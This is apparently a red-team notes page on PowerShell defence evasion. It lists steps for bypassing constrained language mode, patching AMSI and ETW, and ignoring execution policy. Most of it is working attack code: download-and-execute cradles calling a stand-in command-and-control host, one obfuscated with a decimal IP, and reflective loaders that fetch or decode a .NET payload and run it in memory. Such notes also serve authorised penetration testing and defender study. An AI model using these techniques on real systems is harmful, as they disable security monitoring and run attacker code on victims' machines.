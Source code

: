 ```yaml
---
title: PowerShell
---
```


[[notes/windows/evasion]] with PowerShell.

Steps ([source](https://web.archive.org/web/20231227014246/https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/)):

- if [[notes/windows/applocker]] enabled: bypass [[notes/windows/clm]]
- patch [[notes/windows/amsi]] in PowerShell
- optional: disable script block logging by patching [[notes/windows/etw]] in PowerShell
- patch [[notes/windows/amsi]] on process-level
- reflectively execute your .NET assembly payload (see below)

PowerShell v2 doesn't have [[notes/windows/clm]], [[notes/windows/amsi]] and [[notes/windows/etw]] script block logging, but requires .NET Framework 2.0 to be installed.

~~~ bat
powershell.exe -version 2
~~~

Ignore execution policy.

~~~ ps1
powershell.exe -ep bypass
Set-ExecutionPolicy -ExecutionPolicy bypass -Scope process
Set-ExecutionPolicy -ExecutionPolicy unrestricted -Scope process -Force
~~~

Download and execute PowerShell script in memory.

~~~ ps1
iwr -useb c2.attacker.com/script.ps1 | iex
iex(irm c2.attacker.com/script.ps1)
~~~

Tiny download cradle with decimal IP address ([source](https://twitter.com/johnxor2/status/1620365760462991361)).

~~~ ps1
.'irm'3221225985/script.ps1|iex
~~~

Other tools:

- [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell), PowerShell without logging
- [Codecepticon](https://github.com/accenture/codecepticon), code obfuscator

References:

- [PowerShell-Obfuscation-Bible](https://github.com/t3l3machus/PowerShell-Obfuscation-Bible)

# Reflective Assembly Loading

Reflective loading is blocked by [[notes/windows/clm]].
When loading your payload fails with the error *Could not load file or assembly [...]. An attempt was made to load a program with an incorrect format* your payload was blocked by [[notes/windows/amsi]].
In that case try [[notes/windows/dotnet-obfuscation]] or patch [[notes/windows/amsi]] on process-level.

Download assembly and execute when using the PowerShell GUI.

~~~ ps1
$a = @('--help')
$b = (New-Object System.Net.WebClient).DownloadData('https://c2.attacker.com/payload.exe')
$c = [System.Reflection.Assembly]::Load([byte[]] $b)
if ($c.EntryPoint.IsPublic) {
  $c.EntryPoint.ReflectedType::Main($a)
} else {
  $c.EntryPoint.ReflectedType.GetMethod('Main', [Reflection.BindingFlags] 'NonPublic,Static').Invoke($null, (,[string[]] $a))
}
~~~

Download assembly, execute and capture output when using WinRM.

~~~ ps1
$a = @('--help')
$b = (New-Object System.Net.WebClient).DownloadData('https://c2.attacker.com/payload.exe')
$c = [System.Reflection.Assembly]::Load([byte[]] $b)
$d = [Console]::Out
$e = [Console]::Error
$f = New-Object IO.StringWriter
$g = New-Object IO.StringWriter
[Console]::SetOut($f)
[Console]::SetError($g)
if ($c.EntryPoint.IsPublic) {
  $c.EntryPoint.ReflectedType::Main($a)
} else {
  $c.EntryPoint.ReflectedType.GetMethod('Main', [Reflection.BindingFlags] 'NonPublic,Static').Invoke($null, (,[string[]] $a))
}
[Console]::SetOut($d)
[Console]::SetError($e)
$e.ToString()
$f.ToString()
~~~

Base64-decode embedded assembly, decompress and execute.

~~~ powershell
$a = @('--help')
$b = [Convert]::FromBase64String('your payload')
#$b = [System.IO.File]::ReadAllBytes("$(pwd)\payload.exe")
$c = New-Object IO.Compression.GzipStream(New-Object IO.MemoryStream($b), [IO.Compression.CompressionMode]::Decompress)
$d = New-Object System.IO.MemoryStream
$c.CopyTo($d)
$e = [System.Reflection.Assembly]::Load([byte[]] $d.ToArray())
if ($e.EntryPoint.IsPublic) {
  $e.EntryPoint.ReflectedType::Main(@('--help'))
} else {
  $e.EntryPoint.ReflectedType.GetMethod('Main', [Reflection.BindingFlags] 'NonPublic,Static').Invoke($null, (,[string[]] @('--help')))
}
~~~
